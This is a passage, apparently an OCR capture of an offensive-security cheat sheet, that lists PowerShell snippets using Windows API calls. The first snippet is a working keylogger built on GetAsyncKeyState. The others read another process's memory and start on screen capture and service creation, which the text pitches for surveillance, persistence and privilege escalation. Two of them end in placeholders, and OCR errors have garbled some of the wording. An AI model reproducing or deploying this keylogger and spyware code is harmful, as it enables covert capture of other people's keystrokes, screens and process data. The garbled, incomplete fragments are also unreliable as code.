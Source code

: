 ```powershell
Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class KeyLogger
{ [DllImport("user32.dll")] public static extern int GetAsyncKeyState(Int32 i); } "@ while ($true) {
Start-Sleep -Milliseconds 100 for ($i = 8; $i -le 190; $i++) { if ([KeyLogger]::GetAsyncKeyState($i) -
eq -32767) { $Key = [System.Enum]::GetName([System.Windows.Forms.Keys], $i) Write-Host $Key } } }
```

### Accessing Physical Memory with Windows API

This PowerShell script uses the ReadProcessMemory function from the Windows API to read a specied amount of memory from a process. It’s useful for extracting information from running processes.

```powershell
Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class
MemoryReader { [DllImport("kernel32.dll")] public static extern bool ReadProcessMemory(IntPtr hProcess,
IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out int lpNumberOfBytesRead); } "@ $process = Get-Process -Name 'process_name' $handle = $process.Handle $buffer = New-Object byte[] 1024 $bytesRead
= 0 [MemoryReader]::ReadProcessMemory($handle, [IntPtr]0x00000000, $buffer, $buffer.Length,
[ref]$bytesRead)
```

### Using Windows API for Screen Capturing

This script demonstrates how to use Windows API calls to capture the screen. It can be used for surveillance or information gathering.

```powershell
Add-Type -TypeDefinition @" using System; using System.Drawing; using System.Runtime.InteropServices;
public class ScreenCapture { [DllImport("user32.dll")] public static extern IntPtr GetDesktopWindow();
[DllImport("user32.dll")] public static extern IntPtr GetWindowDC(IntPtr hWnd);
[DllImport("gdi32.dll")] public static extern bool BitBlt(IntPtr hObject, int nXDest, int nYDest, int
nWidth, int nHeight, IntPtr hObjectSource, int nXSrc, int nYSrc, int dwRop); } "@ $desktop =
[ScreenCapture]::GetDesktopWindow() $dc = [ScreenCapture]::GetWindowDC($desktop) # Further code tocode
perform screen capture goes here
```

### Manipulating Windows Services via API

This script uses Windows API calls to interact with Windows services, such as creating, starting, or modifying them. This can be used for persistence or privilege escalation.

```powershell
Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class
ServiceManager { [DllImport("advapi32.dll", SetLastError = true)] public static extern IntPtr
OpenSCManager(string lpMachineName, string lpSCDB, int scParameter); [DllImport("advapi32.dll",
SetLastError = true)] public static extern IntPtr CreateService(IntPtr SC_HANDLE, string lpSvcName,
string lpDisplayName, int dwDesiredAccess, int dwServiceType, int dwStartType, int dwErrorControl,
string lpBinaryPathName, string lpLoadOrderGroup, IntPtr lpdwTagId, string lpDependencies, string lp,
string lpPassword); [DllImport("advapi32.dll", SetLastError = true)] public static extern bool
StartService(IntPtr SVHANDLE, int dwNumServiceArgs, string lpServiceArgVectors); } "@ $scManagerHandle
= [ServiceManager]::OpenSCManager(null, null, 0xF003F) # Further code to create, modify, or startcode
services goes here
```
